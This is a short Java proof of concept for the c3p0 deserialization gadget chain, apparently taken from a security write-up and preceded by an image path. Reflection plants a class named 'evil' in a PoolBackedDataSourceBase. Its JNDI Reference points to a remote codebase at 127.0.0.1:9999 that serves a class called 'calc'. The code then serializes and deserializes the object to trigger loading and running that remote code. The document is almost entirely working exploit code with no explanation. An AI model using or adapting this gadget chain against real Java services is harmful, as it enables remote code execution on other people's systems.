 ```java

public class Test {
    public static void main(String[] args) throws Exception {
        PoolBackedDataSourceBase base = new PoolBackedDataSourceBase(false);
        Class clazz = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase");
        Field cp = clazz.getDeclaredField("connectionPoolDataSource");
        cp.setAccessible(true);
        cp.set(base, new evil());

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(base);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();

    }

    public static class evil implements ConnectionPoolDataSource, Referenceable{

        public Reference getReference() throws NamingException {
            return new Reference("calc", "calc", "http://127.0.0.1:9999/");
        }

        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        public void setLogWriter(PrintWriter out) throws SQLException {

        }

        public void setLoginTimeout(int seconds) throws SQLException {

        }

        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
}
```
